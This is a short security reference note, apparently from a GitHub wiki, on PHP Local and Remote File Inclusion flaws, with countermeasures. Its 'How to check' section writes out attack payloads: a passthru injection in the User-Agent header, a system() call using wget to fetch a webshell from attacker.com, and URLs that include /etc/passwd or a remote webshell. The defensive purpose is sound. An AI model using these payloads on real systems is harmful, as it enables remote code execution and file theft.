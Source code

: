 ```yaml
---
title: LFI, RFI
category: ""
order: 0
---
```



## 1. Vulnerability Description
```
LFI : Local File Inclusion
RFI : Remote File Inclusion
```
* The vulnerability occurs when using a function that calls up documents such as include(), include_once(), and request().
* If the above functions do not have proper verification procedures for file names and paths, an attacker can insert certain files in Local&Remote into vulnerable pages and execute code.
If a vulnerability exists, it can be used by a hacker to execute the intended command.

## 2. How to check vulnerability
#### [LFI]
* For Windows, Insert the \<?php passthru('command');?\> code into the user-Agent on the header through a proxy tool and Send it.
* For Unix,  Upload a webshell remotely using commands such as  \<?system('wget http://attacker.com/webshell/test.txt -O test2.php');?\>

#### [RFI]
* Request by inserting local file path or external remote file into parameter as shown below
  * http://test.com/includFile.php?fileName=C:\test.txt
  * http://test.com/includFile.php?fileName=/etc/passwd : Include local files
  * http://test.com/includFile.php?fileName=http://attacker.com/webshell.txt : Include files from remote locations

## 3. Vulnerability Countermeasure
* If the values entered by the user are accurately predictable, verify that they fall within the correct range:
  * If a path or file is specified for an include(), check that the specified value is correct.
  * If an include() path is changed, check that the request value is intended.
    
* Translates some of the characters in question, such as the following, if the values entered by the user are not predictable:
  * Limit usage by changing protocols, such as php wrapper, to filter strings such as "file:"//" that allow specific commands.
  * Add logic to block characters that are not included in the file name in normal cases such as "..", "./", etc.
     * /....// is sometimes converted to /../ after a regular expression
        * "/....////....///....///....///....///".replace(/\.\\\//g)" → "/../..///../../../../../"
        * Do not enter the absolute path itself or verify /../ once again to make an error if the character is included.
        

* If you do not need the Remote File include() function, disable it as follows:
  * Php disables external include() functions such as "allow_url_include = Off, allow_url_open=Off"

## 4. Etc
* Abuse of the include() function
  * ex) include ($Param);
  * include() is used to file and include standard headers and menus to be included on all pages
  * Remote files can be recalled like local files due to their function and setup errors
  
